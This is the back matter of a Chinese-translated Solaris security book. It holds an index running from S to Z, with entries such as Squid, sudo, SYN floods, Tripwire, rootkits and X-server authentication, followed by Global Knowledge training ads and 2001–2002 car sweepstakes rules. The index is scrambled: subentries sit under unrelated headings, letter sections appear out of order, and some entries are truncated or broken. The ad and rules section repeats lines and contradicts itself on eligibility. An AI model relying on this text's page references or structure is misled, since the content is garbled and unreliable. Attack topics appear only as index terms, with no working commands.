`ssh-agent` 命令, 191

`ssh-keygen` 命令, 191

栈, 295

Solaris 桌面环境用户指南 (Solaris Desktop Environment: User's Guide), 14

Solaris 安全工具包 (Solaris Security Toolkit), 58–59

Spafford, Dr. Eugene, 326

Specter, 344

Squid, 266

加速模式, 268

用户访问控制, 275–276

访问控制生存, 276

访问控制列表, 268–271

认证, 274–275

自动代理配置, 279–281

`cache_dir` 标签, 267–268

`cachemgr.cgi` 工具, 272–274

配置服务的访问, 274–281

默认设置, 266–274

简单栈结构, 297

系统状态, 350–356

Stevens, W. Richard, 225

粘滞位 (sticky bit), 132

结构化 (Structured) (Orange Book B2), 37

`su` 命令, 17, 119, 352

策略变量, 106

`sudo`,–88

命令行开关, 88

`suid` 命令, 139

查找 SUID 程序, 139

`slog`, 监控, 17

Sun 企业认证机制 (Sun Enterprise Authentication Mechanism), 100

Sunfire, 72

Sun Lite, 251–254

Sun Net, 55–56

Sun Shield Module (Sun Shield Module), 38

- 按内容过滤, 283
- 按目标过滤, 282
- 按 MIME 类型过滤, 282
- 按 URL 过滤内容, 281–282

`hp_port` 查询, 267

以及 Internet Explorer, 274

Internet Explorer 配置, 279

Lynx 配置, 277–278

代理客户端, 277–281

限制对网站站点, 281

SNMP 配置, 271, 273

`squid.conf` 文件, 266–267

透明缓存, 280

# 索引 392

Symantec pcAnywhere, 捕获登录和组合, 6

SYN 洪水, 290–294

系统管理员角色, 49

系统配置记录, 24–26

系统日志, 141–142

验证日志, 17–18

监控文件, 331–335

策略文件, 334, 335

安全变量, 332

用于服务器, 327


Tripwire 管理器 (Tripwire Manager), 327

木马程序攻击, 309–311

防御 PATH 和命令, 313

防御 rootkit, 309–311

使用逻辑炸弹, 311–313

保护 cron 任务, 311–313

# T

`tail` 命令, 351

TCP/IP 图解 卷 1: 协议, 225

TCSEC, 35

另见 橙色书 (Orange Book)

Telnet

受信任系统评估标准 (Trusted System Evaluation Criteria), 35

另见 橙色书 (Orange Book)

受信任 Solaris 8, 47–54

审计与分析, 54

B1 级, 48–50

# U

捕获登录和密码组合, 6

端口, 71

替换为 SSH, 11

用于访问 Solaris 系统, 5

`telnet` 命令, 187–188

安全测试, 18–20

文本段, 295

TGT, 111–112

票据令牌 (Ticket Granting Ticket)。另见 TGT 时间, 110

TPC。另见 传输控制协议跟踪命令, 237

流量，监控, 81–88

传输控制协议, 5

透明缓存, 280

Tripwire, 17, 205, 311, 326–335

电子邮件设置, 330–341

全局设置, 328–330

UDP 端口，扫描结果, 77

取消掩码, 129

设置, 3

`unzip` 命令, 13

`uptime` 命令, 337

URL, 按内容过滤, 281–282

美国政府国家安全委员会, 35

用户级事件, 44

`utmp`, 347

`utmpx`, 347

UUOCP, 禁用, 16

# V

`/var/adm` 消息，解码, 18

经验证 (Verified) (橙色书 A 和 A1 级), 37

索引 393

虚拟主机, 206

`xauth` 命令, 184

`visudo` 命令, 89

常用形式, 185

`vmstat`, 25–26

X-server, 182–187

基于主机的认证, 183

magic cookies, 184

# W

基于用户的认证, 183–186

Web 页面，监控使用和活动, 206–209

X-Windows, 182

Web 服务器

监控话, 185–186

针对的缓冲区溢出攻击, 302–305

配合 SSH 使用, 186–187

另参见 Apache

另参见 X-server

Westphal, Kristy, 254

# Y

哪个命令, 313

黄页 (YP)。参见 NIS

Ylönen, Tatu, 189

`whodo`, 131

YP/NIS, 捕获登录和密码组合, 6

Widdowson, Liam, 305

向导

DHCP 地址向导, 166–169

DHCP 配置向导, 161–169

写权限, 3, 129

`wtmp`, 347

`wtmpx`, 347

# Z

区域传输

在 BIND 8 中, 180–181

# X

X11, 捕获登录和密码组合, 6

## 与 Global Knowledge 培训

正确的内容，正确的方法，传递到世界各地，从一个人到一千人的任何人。来自 Global Knowledge 的混合学习解决方案™。

## 在这些领域进行培训：

- 网络基础
- 互联网络
- A+ PC 技术员
- WAN 网络和电话
- 管理技能
- Web 开发
- XML 和 Java 编程
- 网络安全
- UNIX, Linux, Solaris, Perl
- Cisco
- Enterasys
- Entrust
- Legato
- Lotus
- Microsoft
- Nortel
- Oracle


## 每小时，每个工作日

遍布全球

像你一样的人

正在接受

Global Knowledge 的培训。

只有 Global Knowledge 提供如此丰富的内容

以及多种格式——课堂、虚拟教室

以及在线学习。这种灵活性意味着 Global

Knowledge 拥有你所需的 IT 学习解决方案。

作为课堂培训领域的领导者，为我们在基于技术的教育领域的领先铺平了道路。从 CD-ROM 到通过 Web 学习，再到通过互联网进行在线学习，我们已经将传统的课堂内容转化为全新的、令人兴奋的教育形式。

大多数培训公司只提供一种

学习体验，就好像一种方法适用于所有人。Global Knowledge 提供的教育是你真实的反映。没有其他其他技术教育提供商整合了如此多种不同类型的内容和交付方式。


## 这可能就是你


## 赢取 2002

hryler PT Cruiser

注册赢非常简单。访问 globalknowledge.com。完全填写表格即可参与参赛！请访问我们的网站查看官方规则。

www.globalknowledge.com。佛罗里达州和波多黎各无效。


## 来自 Global Knowledge 的混合学习解决方案™

## 选择权在你手中。

获取你所需的 IT 培训——按你需要的方式和时间。

混合使用我们的课堂、虚拟教室和在线学习，创建你所需的 IT 培训精准组合。在我们提供的每种方法中，你都能获得同样优质的内容。


## 自学在线学习

通过 CD 或 Web 进行自学培训，外加导师指导和虚拟实验室。


## 虚拟教室学习

通过 Web 由真实教师提供的现场培训。


## 课堂学习

与我们的专家导师在课堂上接受培训。

## Global Knowledge™

9000 Regency Parkway, Suite 500

Cary, NC 27512

1-800-COURSES

www.globalknowledge.com

在 Global Knowledge，我们努力支持学习所需的多种学习风格。

在 Global Knowledge，我们努力支持学习所需的多种学习风格。

在 Global Knowledge，我们努力支持学习所需的多种学习风格。

在 Global Knowledge，我们努力支持学习所需的多种学习风格。

见下表。在整个活动期间，每个人或每个家庭仅限获奖一次。符合额外抽奖资格的参赛将不再参与后续的额外抽奖。

| 月份开始/结束 | 额外抽奖时间（东部时间凌晨12:00:01 - 晚上11:59:59） | 预计抽奖日期 |
| :--- | :--- | :--- |
| 1 | 5/1/01-7/31/01 | 8/8/01 |
| 2 | 8/1/01-8/31/01 | 9/11/01 |
| 3 | 9/1/01-9/30/01 | 10/10/01 |
| 4 | 10/1/01-10/31/01 | 11/9/01 |
| 5 | 11/1/01-11/30/01 | 12/11/01 |

将于2002年1月8日从所有收到的参赛中进行一次大奖抽奖。所有随机奖品抽取将由独立机构 Marden-Kane 进行，其决定为最终决定。所有奖品都将发放。每次额外抽奖的预计中奖概率为第一次1:600，第二、第三、第四和第五次抽奖为1:200，大奖的预计中奖概率为1:100,000。实际中奖概率取决于每次额外抽奖和大奖收到的符合条件的参赛总数。

**3. 奖品：**

大奖：一（1）辆 PT Cruiser ，零售价值 (ARV) $18,000。

额外奖：五（5），每个期间发放一次，ARV 高达1,400。

不接受更换，赞助商可自行决定允许现金等值；若由于任何原因无法提供提供的奖品，赞助商保留更换等值或更高价值奖品的权利。获奖者负责支付所有税费、注册费以及本文未说明的任何其他费用。获奖者须提供有效驾照证明。适用制造商及保修条款。

**4. 资格：**


本次抽奖活动仅限参赛时年满18岁的美国、佛罗里达州和波多黎州居民。Global Knowledge Network, Inc. 及其子公司员工、广告和促销机构（包括 Marden-Kane, Inc.）以及居住同一家庭的直属家人（配偶、父母、子女、兄弟姐妹）不具备参赛资格。活动在佛罗里达州和波多黎州无效，并受所有联邦、州和当地法律约束。参赛者同意受官方规则约束，并接受法官对本次抽奖活动所有事的决定。

## 5. 通知：

获奖者将通过要求回执的挂号信获得通知，并可能需要完成并签署《资格声明/责任豁免书》，并在法律允许的情况下签署《宣传许可书》，这些文件必须在收到奖品通知后的十四（14）天内正式执行并返回。如果这些文件未妥善执行或从邮局作为无法递送被退回，则奖品将作废并授予给备选获奖者。参赛者同意在法律允许的情况下，将其姓名、声音和照片/肖像用于此类及类似活动的广告和促销目的，且无需额外报酬。

## 6. 责任限制：

通过参加抽奖活动，参赛者同意使赞助商、Marden-Kane, Inc.、其关联公司、子公司及其各自的代理、代表、官员、董事、股东和员工（“免责方”）免受因参加抽奖活动或接受、拥有、使用、误用或不使用任何可能的奖品而引起或导致的任何类型的伤害、损失、损害、索赔和诉讼。免责方不对任何游戏相关材料中的打印或排版错误负责；不对被盗、丢失、延迟、投错、损坏或不符合资格的参赛负责；对丢失、投错、未能进入处理系统、或处理延迟、报告、翻译延迟或错误，或由于计算机或电话传输、人为错误等任何原因丢失的交易负责；或对电子计算机扫描设备或电话故障或无法访问网站不负责。如果赞助商认为怀疑或有证据表明游戏的任何部分存在电子或非电子篡改，或者计算机病毒、未经授权的干预、欺诈、参赛者的行为或技术困难损害、破坏或影响了抽奖活动的管理、完整性、安全性、公平性或妥当进行，赞助商保留自行决定取消任何参与参赛过程个人的资格，并使任何通过欺诈提交的参赛无效，修改或暂停抽奖活动，或终止抽奖活动并使用截止日期收到的所有非疑似参赛进行随机抽奖以发放奖品。如果游戏在说明的过期日期之前终止或修改，通知将在 `http://www.globalknowledge.com` 上发布。参赛者或其他任何个人故意破坏任何网站或破坏活动合法运营的尝试都是违反刑事和民事法的，如果发生此类尝试，赞助商保留在法律允许的最大范围内向任何人寻求损害赔偿和其他救措施的权利。个人尝试通过机器人脚本或其他暴力攻击或其他任何未经授权的方法访问网站的行为将导致其 IP 地址不符合资格。禁止使用自动化设备或程序。

## 7. 获奖者名单：

欲查询获奖者姓名，请于2002年1月31日访问我们的网站 `www.globalknowledge.com`。

## 8. 赞助商：

Global Knowledge Network, Inc., 9000 Regency Parkway, Cary, NC 27512。管理员：Marden-Kane, Inc., 36 Maple Place, Manhasett, NY 11030。
